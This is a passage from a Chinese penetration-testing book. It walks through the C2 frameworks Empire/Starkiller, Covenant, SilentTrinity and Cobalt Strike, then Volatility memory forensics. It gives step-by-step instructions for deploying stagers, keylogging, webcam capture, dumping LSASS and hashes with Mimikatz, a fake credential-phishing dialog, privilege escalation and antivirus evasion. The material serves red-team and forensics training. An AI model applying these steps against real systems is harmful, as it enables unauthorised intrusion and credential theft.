当前的 Windows 杀毒软件会阻止未修改的标准 Empire 代理，但如果系统存在漏洞，或者代理被修改过，你可以在更现代的系统上获得远程 shell——例如 Windows Server 2019 系统。如果你能获得远程 shell，`Screenshot` 命令的效果非常好。

如下所示：


我们还可以从摄像头获取截图。嗯，如果你的目标有摄像头的话。大多数服务器都不会连接摄像头。好吧，让我说，服务器不应该有摄像头！但多年来，我见过一些奇怪的做法。

> ➢ `usemodule powershell/collection/WebcamRecorder`


有点模糊，但起作用！


## 从 Empire 主提示符运行命令

你也可以从 Empire 主提示符运行模块。只需输入 `usemodule`，设置代理的名称以及该模块所需的任何其他设置并运行它。例如，Bloodhound 是枚举大型复杂 Active Directory 目标环境的极佳工具。让我们在新代理上运行 bloodhound3 模块。

我有一个代理名为 M1249XZ7 的 Windows Server 2019 代理。

从 Empire 主提示符开始：

> ➢ `usemodule powershell/situational_awareness/network/bloodhound3`

> ➢ `info`


现在我们只需要设置目标代理名称和服务器上的输出目录以存储取回的数据：

> ➢ `set Agent M1249XZ7 [使用你的代理名称]`

> ➢ `set OutputDirectory c:\dump [在 Windows Server 上设置一个目录]`

> ➢ `execute`

几秒钟后，我们应该在目标目录下看到 Bloodhound 数据文件了：


这基本上只是 BloodHound 的 SharpHound 或数据收集部分。我们仍然需要在 Kali 系统上使用 BloodHound 来处理数据。

BloodHound 是一个处理目标 Active Directory 信息并以易于使用的地图类型界面呈现的极佳工具。它对于快速搜索相关数据和可能的攻击路径非常有用。我们在第 29 章中讨论过如何安装和使用 bloodhound。一旦安装并运行 bloodhound，只需将 zip 文件拖入 Bloodhound GUI 即可。Bloodhound 会自动处理该文件并插入数据库。然后你就可以使用数据进行搜索了。例如，使用三条线的菜单图标，你会得到一个预配置搜索的下拉列表。使用它你可以搜索所有域管理员：


如你所见，虚拟用户 Wendy Larsen 是此服务器上拥有域管理员（Domain Admin）权限的三个账户之一。你也可以选择其中一个域管理员并搜索高价值的 AD 连接，这些连接可能用于进一步渗透。Wendy 拥有 10 处此类连接。

我们可以查看这些：


如果你点击“Server Operators”（服务器操作员），它也包含高价值的可达目标：


如所示，你可以快速轻松地确定 AD 连接和可能的目标。这一切只需点击节点即可。BloodHound 是一个非常有用的工具，并且在 C2 环境中运行得良好。

# Starkiller

工具 GitHub: [`github.com/BC-SECURITY/Starkiller`](https://github.com/BC-SECURITY/Starkiller)

Starkiller 介绍：[`www.bc-security.org/post/an-introduction-to-starkiller`](https://www.bc-security.org/post/an-introduction-to-starkiller)


从命令行运行 Empire 很有趣，但当你有多个目标时，使用图形界面要容易得多。StarKiller 是适用于 PowerShell Empire 的图形用户界面（GUI）。我们不会在此上面花费太多时间，因为用法非常相似。最大的区别在于你通过点击选项而不是在命令行中输入它们。

让我们运行与之前相同的攻击，但使用 GUI 并且以一个存在漏洞的 Windows 2019 服务器作为目标。

以 Restful API 模式启动 Empire：

> ➢ `sudo ./empire –rest`
> ➢ 保持此终端运行，打开另一个终端窗口
> ➢ 在新的终端提示符中，输入 `sudo starkiller`

在 StarKiller 登录界面：

> ➢ 输入 Kali 的 IP 地址或带有端口 1337 的 localhost
> ➢ 用户名：`empireadmin`
> ➢ 密码：`password123`

如下所示：


随后你将看到 Starkiller 主菜单：


> ➢ 点击“Create a Listener”（创建监听器），设置类型和任何选项
> ➢ 点击“Submit”（提交）
> ➢ 接下来，点击左侧菜单中的“Stagers”（加载器）
> ➢ 点击“Generate Stager”（生成加载器）
> ➢ 选择你需要的加载器类型、监听器和端口

加载器将被列出来，点击下载按钮（右侧垃圾桶附近）将其保存。

在目标机器上执行该加载器，我们就获得了一个代理（Agent）！


点击 Agent 名称以打开界面窗口。从这里，你可以与目标进行交互，包括运行模块。


例如截屏，并使用 PowerShell 的“get user”模块列出用户：


或者你可以运行“Mimikatz logonpasswords”模块来获取系统哈希值（Hashes）：


StarKiller 让交互和控制多个 agent 变得非常简单。我会尝试命令行和 GUI 两种方法，看看哪种更适合你的需求。我们刚刚触及了使用 Empire & StarKiller 的皮毛，但它应该让你走上道路。

# 网络防御

防御此类攻击的措施与你通常用于防止恶意远程 shell 的标准防御相同。如所述，大多数最新更新的防病毒软件和网络安全程序都会检测到未经修改的 Empire shell，因此保持杀毒软件和系统更新为最新版本至关重要。用户培训也很重要，提醒用户注意恶意邮件附件和网络链接的危险。

最后，SANS 有一篇关于防御 PowerShell Empire 的非常好的白皮书¹。

查看下方的 SANS 白皮书：

1. > “Disrupting the Empire: Identifying PowerShell Empire Command and Control Activity” -[`www.sans.org/reading-room/whitepapers/incident/paper/38315`](https://www.sans.org/reading-room/whitepapers/incident/paper/38315)

# 第 38 章：Covenant – SharpSploit

工具 GitHub - [`github.com/cobbr/Covenant`](https://github.com/cobbr/Covenant)

工具 Wiki - [`github.com/cobbr/Covenant/wiki`](https://github.com/cobbr/Covenant/wiki)

Covenant 是一个基于 .NET 的命令与控制（C2）框架，专为红队设计。它是一个支持多用户的跨平台测试工具。与其他涵盖的 C2 工具一样样，我们仅介绍基础安装和使用。

## Covenant - 基础安装

使用 64 位的 Kali Linux，`dotnet` 不在 x32 位上运行。随着 . Net core 的更新（本文编写时为 3.1），安装指令会略有变化。查看 Covenant wiki 获取最新的安装指令 - [`github.com/cobbr/Covenant/wiki/Installation-And-Startup`](https://github.com/cobbr/Covenant/wiki/Installation-And-Startup)

1. 下载 Covenant：
> ➢ `git clone --recurse-submodules https://github.com/cobbr/Covenant`

2. 从微软安装 `dotnet` core SDK 版本（查看 wiki 获取最新所需版本） - [`dotnet.microsoft.com/download/dotnet-core/3.1`](https://dotnet.microsoft.com/download/dotnet-core/3.1)

> ➢ `wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb`
> ➢ `sudo dpkg -i packages-microsoft-prod.deb`
> ➢ `sudo apt-get update`
> ➢ `sudo apt-get install -y apt-transport-https`
> ➢ `sudo apt-get update`
> ➢ `sudo apt-get install -y dotnet-sdk-3.1`

如果这不起作用，你可能正在尝试使用 32 位或错误的平台（ARM vs amd64）。

> ➢ `cd Covenant/Covenant`
> ➢ `sudo dotnet run`


> ➢ 现在打开浏览器并访问 `https://0.0.0.0:7443`
> ➢ 在出现“Connection not Secure”（连接不安全）错误消息时，接受安全警告

你现在将看到 Covenant 登录界面：


为 Covenant 创建管理员用户：

> ➢ 输入用户名和密码

就这样，Covenant 现在已准备就绪了：


如果你不喜欢亮白色的 UI 主题，最新发布版本中提供了一个名为 Heathen Mode 的新深色主题。

现在我们需要创建一个监听器（Listener），构建一个启动器（Launcher）并准备好获取 shell！

## Covenant - 构建监听器

在 [`github.com/cobbr/Covenant/wiki/Listeners`](https://github.com/cobbr/Covenant/wiki/Listeners) 中介绍

这将仅允许你创建一个 HTTP 监听器，你可以通过 C2 Bridge 创建复杂的监听器，请参阅工具文档。

> ➢ 在 Covenant 菜单中，点击“Listeners”
> ➢ 点击“Create”

我们只需要将 `ConnectAddress` 更改为 Kali Linux 的 IP 地址，如果你需要，也可以更改 `ConnectPort`。

> ➢ 完成后，点击“+ Create”


一个新的监听器现在应该出现在 Listeners 仪表板上


你可以点击监听器名称来获取监听器信息、停止/启动或删除它。

## Covenant - 生成启动器

启动器 Wiki 页面：[`github.com/cobbr/Covenant/wiki/Launchers`](https://github.com/cobbr/Covenant/wiki/Launchers)

现在我们需要做的是创建一个在目标系统上运行的启动器。这是赋予我们远程访问目标的远程 shell、载荷（payload）或利用漏洞代码。

> ➢ 点击“Launchers”
> ➢ 选择一种启动器类型

查看启动器 Wiki 页面以获取每种类型的说明，但它们基本上是自明的并包含了辅助说明。我将介绍两种：“PowerShell”和“MsBuild”启动器。

### PowerShell 启动器

对于 PowerShell 启动器：

> ➢ 点击菜单上的“Launchers”
> ➢ 点击“PowerShell”

检查代码，更改你需要的任何选项。高级用户将修改代码以绕过防病毒软件和系统防御。

> ➢ 点击“Generate”
> ➢ 然后点击“Download”

将文件复制到目标机器并以管理员用户身份运行。显然，这是需要实术（tradecraft）的地方。在现实生活中，你需要说服目标运行该文件，或者拥有系统的物理访问权限。一旦文件执行，你就应该获得了一个远程 shell，或者一个“Grunt”。

### MsBuild 启动器

对于 MsBuild 启动器：

> ➢ 点击“MsBuild”
> ➢ 然后点击“Generate”
> ➢ 最后，点击“Download”
> ➢ 将文件复制到目标机器
> ➢ 打开管理员级别的命令提示符
> ➢ 在目标系统上使用 `MSBuild` 运行该文件：


```bash
c:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe "GruntHTTP.xml"
```


如果系统存在漏洞，你将获得一个 `Grunt`，即远程外壳。


> ➢ 点击 `Grunt` 名称
> ➢ 点击 “Interact”（交互）与 `Grunt` 进行交互

在这里，你可以运行任务，输入任务名称然后点击“send”（发送）它。

> ➢ 输入“help”查看命令列表


你也可以通过输入“help `[command_name]`”来获取有关命令的更多信息。

例如，“screenshot”命令的作用就是截屏：


当你开始输入时，系统会显示可用的命令。我们将介绍其中几个命令。命令响应将在活动窗口中返回，但你也可以在 Tasks 窗口中查看命令历史。

**Keylogger**（键盘记录器）——有多个键盘记录命令可用，每个命令后的数字代表运行的秒数。因此，`keylogger 20` 将运行 20 秒然后返回捕获的按键。


`getDomainUser` 返回所有域用户：


如果你有超过 2500 个用户（如我们的测试 Windows 服务器所示），此命令运行可能需要几秒钟。

## 使用 Covenant 转储凭据

有多种方法可以使用 Covenant 转储凭据。当然，你可以运行 PowerShell 命令和 `Mimikatz`。有些命令在其他 C2 中是不可用的。让我们快速看几个。

* > `SharpDump` 将本地安全权威子系统服务 (LSASS) 转储到临时 Windows 文件。然后你可以获取此文件，如果需要可以远程复制，并在上面运行 `Mimikatz` 以提取凭据。或者你也可以将其留在目标系统上，使用提供的 `mimikatz` 命令从中提取凭据。


* > `SafetyKatz` 运行 `Mimikatz`，将 LSASS 转储到文件，然后在文件上运行 `mimikatz sekurlsa::logonpasswords` 以显示登录凭据。最后，它运行 `mimikatz ekeys` 来转储 Kerberos 密钥。


转储的 Kerberos 密钥如图所示：


`Seatbelt` 是另一个非常有用的工具，可以返回大量的用户信息。只需输入“Seatbelt”即可查看可用命令列表。`--group=user` 返回大量有用信息，包括命令历史、凭据文件和密钥。`--group=all` 运行所有的 seatbelt 测试，并包含关于目标系统的大量信息，包括安装的应用、有趣的文件、用户和安全组。

!(images/00846.jpg)

## 结论

关于使用修改代码配合 Covenant 尝试绕过反病毒软件，网上有很多很好的文章。其中一种工具是 `Wover Donut`，它用于生成 shellcode。在写本文时，该工具已几个月没有更新了，因此我不确定它是否仍在活跃开发。你可以在此处找到：[`github.com/TheWover/donut`](https://github.com/TheWover/donut)

## 第 39 章：SilentTrinity


**工具作者** - byt3bl33d3r
**工具 GitHub** - [`github.com/byt3bl33d3r/SILENTTRINITY`](https://github.com/byt3bl33d3r/SILENTTRINITY)
**工具 Wiki** - [`github.com/byt3bl33d3r/SILENTTRINITY/wiki`](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki)

`SilentTrinity` 是一个由 `Python 3` 和 `.NETs DLR` 驱动的协作命令控制与后渗透框架。`SilentTrinity` 我最喜欢的 C2 之一。它由一个人创建并更新——这展示了一个平台即使由单人努力完成也可以是多么强大。我不会花大量时间详细介绍 `SilentTrinity` 的细节，这只是对基本用法的快速介绍。

### 安装

在 Kali 或 Debian 中，使用“Actions”选项卡下提供的最新二进制文件，选择最新的构建并在 Artifacts 选项卡下下载 Ubuntu 二进制文件。

> ➢ 登录 GitHub 并下载 `SilentTrinity` 二进制文件：[`github.com/byt3bl33d3r/SILENTTRINITY/actions`](https://github.com/byt3bl33d3r/SILENTTRINITY/actions)


> ➢ 创建名为“SilentTrinity”的目录
> ➢ 解压 zip 文件并赋予执行权限

**注意**：你可能需要手动创建并 `pip3 install` 要求文件：[`github.com/byt3bl33d3r/SILENTTRINITY/blob/master/requirements.txt`](https://github.com/byt3bl33d3r/SILENTTRINITY/blob/master/requirements.txt)

### 使用 SilentTrinity

**启动服务器：**
`./SilentTrinity [teamserver]`


**启动客户端：**
`./SilentTrinity [teamserver] [password]`


**通用命令：**
输入“help”查看命令列表。

**创建载荷：**
`list`
`http`
`options`


**创建阶段器 (Stager)：**
`list`


**最近更新新增：**
1. `raw` - 生成 shellcode
2. `powershell` - 嵌入 PowerShell 中
3. `msbuild` - 直接执行

**使用 MSbuild 执行：**
```bash
c:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe "GruntHTTP.xml"
```


### 与会话交互

你可以使用 `sessions` 查看活动会话：


获取目标信息：
`info [session_name]` 

### 使用模块 (Modules)

真正的威力在于使用模块。这些模块类似于你在 Metasploit 中使用的模块。
`list`


`use screenshot`
`info`
`run [session #]`


### Silent Trinity - 使用 Thunderstruck 进行 Rick Rolling

`thunderstruck` 模块会打开 YouTube 并以最大音量播放 AC/DC 的歌曲“Thunderstruck”。这种类型的攻击实际上在几年前曾作为针对伊朗科学家的 Stuxnet 攻击的一部分使用。

`use thunderstruck`
`info`
`run [session #]`


### Silent Trinity 键盘记录器

SilentTrinity 也有一个记录器。你使用 `set` 命令、选项名称和值进行设置。

例如：
`use keylogger`
`info`


设置持续时间为 1 分钟：
`set Duration 1`
`info`


运行模块时，在目标上输入内容。SilentTrinity 将记录限制时间内按下的所有普通和特殊键。


### 检查反病毒软件

我们还可以检查目标正在运行什么种 AV。
`use testAV`


### 弹出对话框

我们可以让目标计算机上弹出一个对话框。这可以作为一种简单的“被入侵证明”。


> ➢ `use boo/messagebox`

> ➢ 设置你任何想要显示的文本和标题


## 凭据钓鱼 – 凭据窃取消息框

与上述类似，但这次它会提示用户输入凭据。输入后，它会存储这些凭据。

> ➢ `use boo/credphisher`

> ➢ `set`MessageText "Give Me your Credz!"`


运行时，目标机器上会出现一个“Windows 安全”框。

如下所示：


目标输入的任何凭据都会被。

## 结论

如你所见，SilentTrinity 是一个非常强大且多功能的命令与控制框架（C2 Framework）。请意识到，这个 C2 是由一个人在业余时间开发的。想象一下，如果这是一个由完整开发团队运行的全职项目，它的能力将有多强大。在本节中，我们在多个 C2 上运行了若干种相同类型的命令。这是为了向你展示不同 C2 之间的细微差异。在我们离开本节之前，我想谈谈专业级的 C2。

参考文献：

1.  > “黑客让伊朗的核计算机播放了 AC/DC 音乐” -https://www.theverge.com/2014/8/7/5977885/hackers-made-irans-nuclear-computers-blast-ac-dc

## 第 40 章

## Cobalt Strike

工具网站 - https://www.cobaltstrike.com/support

最后，我想谈谈 Cobalt Strike。Cobalt Strike 是专业渗透测试人员最喜的 C2 产品之一，在 Kali Linux 中运行效果非常好。它非常精细且功能丰富。你可以（并且在专业环境中应该）修改 Cobalt Strike 运行方式以及与目标交互的几乎所有设置。它的图形界面为你提供了一个近乎完整的“点击即攻破”（Click and Pwn）环境——一旦你在目标上建立了活跃的立脚点，就可以快速遍历网络并轻松破解其他系统。所有这些令人兴奋的功能都是代价的——Cobalt Strike 的年度许可费用高达数千美元，这使得许多小型渗透测试公司和“单人”工作室无法企及。既然如此，本章将仅作为阅读材料，以便让你看到授权专业 C2 的功能。

Cobalt Strike 团队为其产品创建了详尽的文档和优秀的培训视频。因此，这不会是一个分步教学的教程章节，而是对某些功能的介绍。如果你购买了此产品，我强烈建议你完成整个厂商培训，它非常详尽，涵盖了使用和修改以绕过现代系统防御各个方面。

### Cobalt Strike 安装

安装说明可以在此处找到-[`www.cobaltstrike.com/help-install`](https://www.cobaltstrike.com/help-install)

基本上，你只需要下载，然后输入购买的密钥代码进行激活：

> [`www.cobaltstrike.com/download`](https://www.cobaltstrike.com/download)

### 使用 Cobalt Strike

Cobalt Strike 分两部分执行：Team Server（团队服务器）和 Client（客户端）。启动 teamserver，提供主机 IP 地址和使用的密码。

> ➢ `sudo ./teamserver 172.24.1.102 kali`

然后，打开另一个终端并启动 cobalt strike：

> ➢ `./cobaltstrike`

输入你在上一个命令中设置的用户名和密码。


你将看到 Cobalt Strike 的图形用户界面。现在只需创建一个监听器并选择一种攻击形式。你有许多选择，包括 HTML 应用程序、Office 宏、Windows 可执行文件，甚至是鱼叉式钓鱼和 Web 驱动等选项。


一旦成功投送了信标（beacon），你就获得了一个远程 shell。所有远程目标都列在 Cobalt Strike 主窗口中。


### Cobalt Strike - 活跃会话 (Active Session)

任何活跃的会话都会出现在顶部窗口。你可以点击它们，然后点击“interact”（交互）。这将在底部窗口打开一个命令界面。输入“help”查看可用命令。你可以执行简单的操作，如截屏、使用 `run` 命令在目标上执行命令，以及许多其他选项。

例如，输入“screenshot”来获取目标的屏幕截图。你可以从菜单中点击“View”和“Screenshots”来查看：


你可以使用 `run` 命令远程运行系统命令。例如，你可以在命令界面窗口输入 `run calc.exe`，计算器就会在目标 PC 上打开。

如下所示：


“弹出 calc - 攻破证明”一直是我最喜欢的笑话之一。

### Cobalt Strike - “Net” 命令

Net 命令是内置命令，用于从目标中提取信息。将它们想象成 Windows 内置的“net”命令。输入“help net”查看可用命令列表。

例如，要获取用户列表，输入“net users”


或输入“net computers”列出域中的主机。


你可以将“sleep”（睡眠时间）或“check in value”（签到值）设置为“0”，然后输入“desktop”来启动一个 VNC 会话：


只需关闭 VNC “Desktop”窗口即可退出 VNC 会话。

### 提升至 System (Elevating to System)

要从 Admin 级 shell 提升到 System 级：

> ➢ 创建一个 SMB 监听器，使用任何名称
> ➢ 在现有的 shell 上右键点击
> ➢ 点击“Access”
> ➢ 点击“Elevate”
> ➢ 选择你创建的 smb 监听器
> ➢ 选择“exploit uac-token-duplication”
> ➢ 点击“Launch”

你现在同一系统上有一个新的会话，但使用的是 SMB。现在让我们提升到 System 级权限。

> ➢ 在新 shell 上右键点击
> ➢ 点击“Access”
> ➢ 点击“Elevate”
> ➢ 选择 smb 监听器
> ➢ 选择“svc-exe”
> ➢ 点击“Launch”

你现在拥有了一个 System 级 shell：


### Hashdump (哈希转储)

现在我们已经有了 System 级 shell，就可以转储密码哈希。

> ➢ 在 System 级 shell 上右键点击
> ➢ 点击“Access”
> ➢ 选择“Dump hashes”


你还可以在 beacon 提示符处运行 `logonpasswords`，以尝试恢复任何明文密码。

### Keylogging (键盘记录)

你可以在任何会话上进行键盘记录，只需确保你使用的是同一个用户会话（检查进程列表）。


如果你愿意，也可以同时进行键盘记录并开启远程桌面：


### Cobalt Strike 定制化

C2 背后的“编程语言”允许你更改许多 CS 的运行方式。随着反病毒软件在捕获 C2 方面不断进步，许多红队（Red Team）都会深度定制他们的有效负载和监听器。CS 基本上允许你做到这一点。它允许你更改从 Cobalt Strike 的通信方式到内存规避和混淆的一切。例如，你可以使用 DNS 作为进入目标网络的主要通信，然后通过 SMB 在目标之间进行通信。

## X 部分 - 攻击取证 (Offensive Forensics)

## 第 41 章

## 使用 Volatility 分析内存

在本节中，我们将从计算机安全测试员的角度来看待取证。在这一过程中，我们不会涵盖获取和处理证据的法律性问题，也不会谈论证物链（chain of custody）或适当的文档记录。我们仅介绍 Kali 中可用的几种工具来执行不同类型的取证，尝试恢复在安全测试情况下可能有用的信息，而不是用于法庭。


因此，我们不会涉及安装和使用软件或硬件写阻断器的正常取证流程，也不会涉及准备和保护恢复的信息。如果你计划将 `Kali` 及其包含的工具用于法律取证案件，那么将由你来检查联邦、州和本地关于证据收集的法律，并由你来证明这些工具符合获取和保存法律证据的要求和能力。

## 取证工具

我们将相当深入地介绍如何使用几种最流行的取证工具，其他工具我们只展示其命令及其如何执行。虽然这超出了本书的范围，但有一些有趣的 PowerShell 取证选项可用，且并未包含在 `Kali` 中。Jared Catkinson 的 `PowerForensics` 就是其中一个选项：

[`github.com/Invoke-IR/PowerForensics`](https://github.com/Invoke-IR/PowerForensics)

> 免责声明：此处介绍的取证章节绝非用于真实的法律案件，也非用于获取或保存实际事件的证据。这里展示的技术并非“符合法证完备性的”。

## Volatility - 简介

分析系统内存中的痕迹是取证分析师、安全专家和恶意软件分析师使用的一种技术。在本章中，我们将查看一个标志性的内存分析工具 - `Volatility`。Volatility 是目前可用最好的内存取证工具之一。它曾包含在 `Kali Linux` 中，但最新的版本 3 已经不再包含。在本章中，我们将看到如何从内存转储中提取相关信息，并使用 `Volatility` 进行一些非常基础的分析。

我们将介绍如何快速地获取活动内存转储，以及如何恢复以下信息：

> ➢  注册表信息
> ➢  活动进程列表
> ➢  网络连接
> ➢  密码哈希

如果红队和渗透测试人员拥有系统的物理访问权限，这些信息都是有用且可以获取的。此外，它们也适用于活动内存、崩溃转储、虚拟内存和休眠文件。有几个程序可以用于获取内存转储，正如刚才提到的，你可以使用几个来源进行内存分析。

以下是其中几个：

> ➢  直接从活动内存获取
> ➢  虚拟内存文件
> ➢  休眠文件
> ➢  崩溃转储
> ➢  远程系统

在教程中，我们将介绍如何从活动内存中恢复信息。为此，我们将使用 `FTK Imager`。`FTK` 运行快速且方便。

## FTK Imager - 获取内存转储

工具网站 - [`accessdata.com/`](https://accessdata.com/)

`FTK Imager` 是一个实时内存获取工具。通过它，你可以为目标系统的所有活动内存（以及 `pagefile.sys`）创建一个副本。我们将使用 `FTK Imager` 捕捉 Windows 10 系统的内存，然后在 `Kali` 中使用内存取证工具 `Volatility` 对进行分析。

> ➢  从 AccessData 下载最新版本的 `FTK Imager`
> ➢  将其安装在你的 Windows 10 系统上


安装完成后：

> ➢  点击主菜单中的“File”（文件）
> ➢  点击“Memory Capture”（内存捕获）
> ➢  输入目标路径（我直接使用了 `c:\data`）
> ➢  勾选“Include pagefile”（包含分页文件）
> ➢  勾选“Create AD1 file”（创建 AD1 文件） - 虽然不需要，但对于其他取证用途很有用

然后点击“Capture”（捕获）


将生成的 `memdump.mem` 和 `Pagefile.sys` 文件复制到你的 `Kali` 系统，并将它们放在名为“analysis”的文件夹中。如果你是拷贝到 FAT32 的 USB 盘，可能需要对 memdump 文件进行压缩。

### 分析 PageFile.sys

让我们快速查看一下 `Pagefile.sys` 文件。`Pagefile` 是内存中的一个“热交换”部分，当系统需要更多 RAM 空间时用于存储活动内存。硬盘上的空间被用来虚拟 RAM。因此，你可以像在活动内存中一样在这个文件中找到有趣的痕迹。你可以像我们在上一章中做的那样对它运行 `strings`，然后寻找特定项目。我们可以对输出进行过滤和排序使其更具读性。在这种情况下，使用 `egrep` 比 `grep` 更高效，因为它更快。

要查找账户信息：

> ➢  `strings pagefile.sys | egrep "username" | sort | uniq`


访问过的网站：

> ➢  `strings pagefile.sys | egrep "^https?://" | sort | uniq`


你可以将其管道到 `less`（`| less`）以便每次只获取一页结果。你也可以使用 `YARA` 规则。更多信息请查阅 Andrea Fortuna 关于该主题的优秀博客文章¹。

## 分析内存镜像

工具 GitHub - [`github.com/volatilityfoundation/volatility3`](https://github.com/volatilityfoundation/volatility3)

现在我们已经将内存转储文件传输到 `Kali`，让我们开始分析它。我们需要从制造商网站安装 `Volatility 3`。

> ➢  `git clone https://github.com/volatilityfoundation/volatility3.git`

要查看 volatility 的选项，输入 `python3 vol.py -h`：


如果你以前使用过 `Volatility 2`，现在它发生了很大变化，不再需要提供配置文件，这变得更顺畅了。我们现在可以直接进入分析。

### 分析注册表

`Volatility` 在处理注册表时包含多个命令：

> ➢  `Hivelist`
> ➢  `Hivedump`
> ➢  `Printkey`
> ➢  `Userassist`

首先，我们需要配置文件的列表，以便获取注册表所在的位置。

#### Hivelist

`Hivelist` 命令告诉 `volatility` 显示注册表文件。

> ➢  `python3 vol.py -f analysis/memdump.mem hivelist`


我们现在有了内存转储中的多个关键项列表。我们可以利用这些信息来发现特定的痕迹。

#### Printkey

所以，如果我们想知道系统中安装了哪些软件，可以导出 `Software` 注册键：

> ➢  `python3 vol.py -f analysis/memdump.mem printkey --key "Software"`


这将提供注册表的软件列表：


我们还可以通过检查 `WinLogon` 注册键来查找最后登录的用户名：

> ➢  `python3 vol.py -f analysis/memdump.mem printkey --key "Software\Microsoft\Windows NT\CurrentVersion\Winlogon"`

这返回了几个位置的信息，但如果我们查看列表底部，可以看到：


内存转储时用户“Dan”处于活动登录状态。

#### UserAssist

`UserAssist` 是一个有趣的键，记录了用户运行了什么、运行了多少以及上次运行的时间。

> ➢  `python3 vol.py -f analysis/memdump.mem userassist`

这也会返回大量信息，但当你查看它时，可以发现一份关于用户活动的有趣的报告：


此示例显示他们运行了记事本，随后使用了命令提示符。我们稍后会进一步调查这一点。现在我们已经知道了如何恢复注册表信息，让我们看看如何从捕捉的内存恢复运行进程列表和活动网络连接。这些步骤通常是对镜像进行恶意软件分析的人的首选。

#### Timeliner

`Timeliner` 是一个有趣的内置函数，它扫描内存转储并寻找来自多个源的时间线：

> ➢  `python3 vol.py -f analysis/memdump.mem windows.pslist`


这运行需要很长时间，但会返回大量带有时间戳的相关信息，包括浏览器历史、进程、DLL 信息以及来自“User Assist”的数据。

#### 进程列表

使用 `Volatility` 的 `pslist` 命令可以查看 Windows 系统上运行的进程：

> ➢  `python3 vol.py -f analysis/memdump.mem windows.pslist`


从命令的输出中，我们可以看到所有运行进程的物理内存位置、进程名称和 PID 号。你也可以使用 `vol` 来查看进程下可能运行的精确程序。这有助于恶意软件分析师追踪恶意进程及其关联程序。这也能帮助攻击安全团队可能在进程中发现一些有趣的信息。

## DOS 命令历史

我们可以运行的另一个有趣命令是 `cmdline`。此插件允许我们看到从命令行提示符运行了哪些命令（如果有）。

> ➢  `python3 vol.py -f ~/analysis/memdump.mem cmdline`


在这种情况下它并没有什么帮助，但在某些情况下，我见过它可以列出在 DOS 命令行会话期间输入的逐步命令行。但它确实捕获到了我运行了 FTK Imager。如果你怀疑用户正在使用 DOS 命令，这些信息在分析机器时可能会有所帮助。

## 使用 Netscan 查看网络连接

我们可以使用 `netscan` 命令从内存转储中查看活跃的网络连接。

> ➢  `python3 vol.py -f ~/analysis/memdump.mem netscan`


返回的数据显示了所有网络连接，包括进程名称、源和目的 IP 地址——包括端口。这只是实际返回内容的短片段，实际列表很容易是它的三倍长，因为在拍摄快时用户打开了几个网页。这些信息有助于分析师查看哪些网络连接是活跃的。但也可以帮助安全测试人员获取目标网络的有价值信息。

## 从进程内存中恢复数据

内存分析的一个很棒特性是，你还可以从数据采集时运行的进程中提取信息。例如，让我们从内存转储中一个打开的记事本会话中提取信息。记得我们在之前的检查中看到过 Notepad 是打开的。

首先，我们需要使用 `pslist` 命令找到 Notepad 进程的进程 ID (PID)：

> ➢  `python3 vol.py -f ~/analysis/memdump.mem windows.pslist`

搜索进程列表并找到 Notepad.exe 的 PID，在我的机器上它是 8440：


现在我们需要做的只是使用 `windows.memmap --dump --pid 8440` 命令将关联内存保存到文件中。我们还将创建一个 `notepad` 目录来保存恢复的文件。然后，我们将恢复的 `.dmp` 文件通过 `strings` 命令运行一次，以恢复任何可读的文本。最后，我们将 strings 输出保存到文本文件中进行分析。

虽然有几个步骤，但让我们一个一个来看。

1. > 为输出创建一个新目录，`mkdir notepad`
2. > 输入，`python3 vol.py -f ~/analysis/memdump.mem -o notepad windows.memmap --dump --pid 8440`，输入你的内存文件名、输出目录以及你的 Notepad 进程的 PID。

这运行需要很长时间，因为它从内存转储中的许多内存位置提取了 Notepad 进程的部分内容。去喝杯咖啡吧！

当转储完成后：

3. > 切换到 notepad 目录并输入 `strings pid.8440.dmp > notepad.txt`


现在只需用文本编辑器打开生成的 `notepad.txt` 文件并搜索痕迹即可。

在我的机器上，我发现了这个：


来自 Metasploitable 的用户和密码列表！

我还发现了这个：


一个 `/etc/passwd` 文件的副本！这个用户显然是一个安全分析师，并将这些发现保存在记事本中，可能是渗透测试期间的现场笔记。遗憾的是他们也没有保护对系统的物理访问。你可以从许多不同的应用程序中提取进程内存。玩玩看——你永远不知道会在 RAM 中发现潜伏着什么！

## 恢复密码哈希

Windows 用户密码哈希也存储在活动内存中。如果你能获得内存镜像，就可以获取密码哈希。这对于安全渗透测试人员来说非常，因为如果你有了哈希值，就可以继续破解它们，或将它们用于哈希值传递（pass the hash）类型的攻击来访问网络上的其他系统。在这个版本的 Volatility 中，这非常简单。只需使用 `hashdump` 命令即可。

> ➢  `python3 vol.py -f ~/analysis/memdump.mem hashdump`


这些哈希值随后可以被取并在在线哈希破解网站或任何密码破解程序（如 John the Ripper 或 Hashcat）中破解。在这种情况下，我只需将哈希值输入在线破解器 `crackstation.net`，它立即破解了它：


噢看，密码是——没有密码！防止物理访问只是该系统问题的开始！另一个可能返回密码的扫描模块是 `lsadump` 模块。该模块从本地安全权威机构（LSA）密钥中提取信息。

如下所示：

> ➢  `python3 vol.py -o password -f ~/analysis/memdump.mem lsadump`


顺便提一下，有很多工具可以从活动系统的内存中提取密码，包括读取本地安全权威机构的密钥。记住 MITRE ATT&CK 有一份攻击者使用的攻击工具和技术列表，包括凭据转储（Credential Dumping）——([`attack.mitre.org/techniques/T1003/004/`](https://attack.mitre.org/techniques/T1003/004/))

## Windows 安全权限

对于安全专业人员来说，另一个实用的插件是 `Windows Privileges` 扫描。它扫描并返回内存中任何运行进程使用的所有安全权限。这些对于可能的特权提升攻击可能有用。

> ➢  `python3 vol.py -f ~/analysis/memdump.mem windows.privileges`


## 使用 Malfind & Yarascan 进行基础恶意软件分析

到为止，我们已经学习了使用 Volatility 可以的一些有趣事情。但如何用它来寻找恶意软件呢？Volatility 有几个模块可以帮助在内存转储中寻找恶意或可疑的文件。

### Malfind 插件

> ➢  `python3 vol.py -f ~/analysis/memdump.mem windows.malfind`


你也可以使用带有规则或字符串的 Yara 扫描检测恶意软件或利用迹。YARA 扫描可以发现许多问题，包括恶意软件感染、移动恶意软件和 CVE 问题。

> ➢  `python3 vol.py -f ~/analysis/memdump.mem windows.vadyarascan --yara-file "Yara_Rules_File_Path"`

> ➢  `python3 vol.py -o "output directory" -f ~/analysis/memdump.mem windows.vadyarascan --yara-rules "string"`


